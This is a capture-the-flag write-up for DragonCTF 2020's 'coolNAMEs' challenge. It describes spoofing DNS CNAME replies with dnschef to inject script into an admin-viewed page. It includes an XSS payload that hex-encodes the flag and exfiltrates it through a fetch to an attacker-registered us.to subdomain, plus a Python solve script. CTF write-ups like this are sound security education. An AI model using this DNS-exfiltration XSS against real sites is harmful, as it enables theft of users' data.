 ```yaml
---
layout: post
title: "[DragonCTF 2020] coolNAMEs (19 solves)"
author: Filip Kilibarda
---
```


# coolNAMEs

Challenge front page: 

![](/assets/images/dragonctf2020/coolnames/frontpage.gif)

You had to give it an IP address and then it called the function `make_query`.

I didn't know much about what `make_query` did at this point except that it was probably a DNS lookup of some sort (hint: port 53, coolNAMEs, etc.).

Running `make_query` on 127.0.0.1 resulted in the page just hanging. I guess because there was no DNS server listening on localhost of the server.

Running with `8.8.8.8` (one of Google's DNS server's), we got

![](/assets/images/dragonctf2020/coolnames/queryresult.png)

Ok so apparenty there was no query result... I had no idea what they were querying for. Also the note about the flag... wasn't sure what to think of this at the time.

Next step was to figure out what kind of DNS query they were sending. For that, I needed to run a DNS server on a public IP and tell them to query my server. 

I still had some free credits on Vultr (*I wish they were paying me to say this*), so I started an instance with a public ipv4 address.

On the instance I ran a simple `nc` command to listen on the public ip port 53, then submitted my ip to the web form.

![](/assets/images/dragonctf2020/coolnames/nclisten.png)

Obviously this was a DNS request, but I couldn't tell what exactly it was requesting beyond maybe `5bt5f.7i` for the domain name. 

`sudo tcpdump -i ens3 -w tcpdump.pcap` + wireshark

![](/assets/images/dragonctf2020/coolnames/wireshark.png)

When I ran it again, the requested domain name this time was `f357c.3f` and thanks to wireshark, I could see that it was a CNAME record request.

Each time I ran it, it requested a different domain name. The names were being generated randomly, so obviously they weren't real registered domain names.

I wanted to see what would happen if their DNS request actually got a result back, but first:

<!-- <pic?> -->

# XSS

Something I didn't put much thought into initially was this:

![](/assets/images/dragonctf2020/coolnames/reportadmin.png)

Jamvie and Robert (who are much more experienced with web stuff), connected the dots between that and this

![](/assets/images/dragonctf2020/coolnames/theflagis.png)

So this clearly meant that the admin user was going to come view the results if the box was checked. And since only the admin could see the flag, this meant that we needed to force the admin to send it to us when they viewed the page (XSS).

# DNS Server

Now I wanted to investigate what would happen if our server actually returned a valid response for their DNS request.

Robert recommended the tool [dnschef](https://github.com/iphelix/dnschef), which just made this so easy. dnschef acts as a man in the middle for all DNS requests, forwarding requests to a real DNS server, e.g., `8.8.8.8`, then for certain chosen domains, it can fake DNS records completely.

Meaning if someone queries my DNS server for `5bt5f.7i`, dnschef could be trivially programed to return arbitrary IP addresses for the request.

A quick test to see what would happen if I made dnschef return `HelloWorld` for all CNAME requests:

![](/assets/images/dragonctf2020/coolnames/dnschefouthelloworld.png)

and the output

![](/assets/images/dragonctf2020/coolnames/helloworldoutput.png)

Instead of `HelloWorld`, we just had to put something in there, like `<script>...</script>` that would cause the admin to execute our javascript in their browser context and leak the flag. However, because of this

![](/assets/images/dragonctf2020/coolnames/remarks.png)

we had to leak the flag out with only DNS requests. However, unlike the first time around, where we got to specify the IP address of the DNS server, this time we couldn't do that and we had to actually get the public DNS system to route a DNS request from the admin's browser to our dnschef server, where we could then retreive the flag from the request.

First, we needed to construct a DNS query that would leak the flag. We did that with essentially this

```js
fetch(http:// + getflagfromadminsHTML().hexencode() + .cd481af3fd77.us.to)
```
or
```js
<script>fetch("http://"+document.getElementById('flag')
.innerText.replaceAll(/./g,(m)=>m.charCodeAt(0).toString(16))
.slice(35,90)+'zz'+Math.floor(Math.random()*Math.floor(10000))
+".cd481af3fd77.us.to");</script>
```

So when the admin would log in and view the site, they would end up executing a fetch to a domain name that had the flag inside it, and we would receive the request at our server.

But again, for this to work we needed the public DNS system to route a DNS request to our dnschef server. For that we had to actually get our dnschef server published on an existing public DNS server.

# Registering our dnschef server

Robert was pretty familiar with this and he actually knew of a website [freedns.afraid.org/](https://freedns.afraid.org/) that would let him register our dnschef server on a public DNS server that handled `us.to.` domains **FOR FREE**. We like free things. The site seems a little sketch though. It causes my CPU to run on high for some reason.

There were two things he needed to do:

1. Register an NS record for our dnschef server
2. Register an A record for our dnschef server (`155.138.221.247`)

Robert chose `cd481af3fd77.us.to.` (*random*) as the domain that our dnschef server should receive requests for.

He gave our dnschef server the domain name `nneonneo-yxe.us.to.`.

Then he made the A record for `nneonneo-yxe.us.to.` = `155.138.221.247`, the IP of the dnschef server.

So now when I sent a DNS request for `cd481af3fd77.us.to.` to `8.8.8.8` (Google), it would do this:

![](/assets/images/dragonctf2020/coolnames/dnslookup.png)

![](/assets/images/dragonctf2020/coolnames/dnslifecycle.png)

Notice at the end it sent the request to our dnschef `155.138.221.247`

![a](/assets/images/dragonctf2020/coolnames/nsrecord.png)

So everything under the `cd481af3fd77.us.to` domain was being handled by the `nneonneo-yxe.us.to` DNS server, which had an IP address of `155.138.221.247` (our dnschef server).

# Retreiving the flag

```
from pwn import *
import requests
import re
from hashlib import sha1
import sys

URL = "http://reverse-lookup.hackable.software/"
r = requests.get(URL)
r = r.text

m = re.search(r"value=\"(.*?)\"", r)
nonce = m.group(1).encode("ascii")

def crack(nonce):
    for _ in range(2**30):
        pow = randoms(20).encode("ascii")
        guess = sha1(nonce + pow).hexdigest()
        if "313377" in guess:
            print(f"Got it: {pow}")
            return pow
    else:
        print("Didn't get it")
        sys.exit(1)

pow = crack(nonce)

nonce = nonce.decode("ascii")
pow = pow.decode("ascii")
ip = "155.138.221.247"

data={"nonce":nonce, "pow": pow, "srv": ip, "for_admin": "on"}
print(data)
r = requests.post(f"{URL}/query?", data=data)
```

![](/assets/images/dragonctf2020/coolnames/flag.png)

And the flag was hex encoded in the DNS request!

`537b4d7573744c7575757576444e535f646f6e7459617d ~= DrgnS{MustLuuuuvDNS_dontYa}`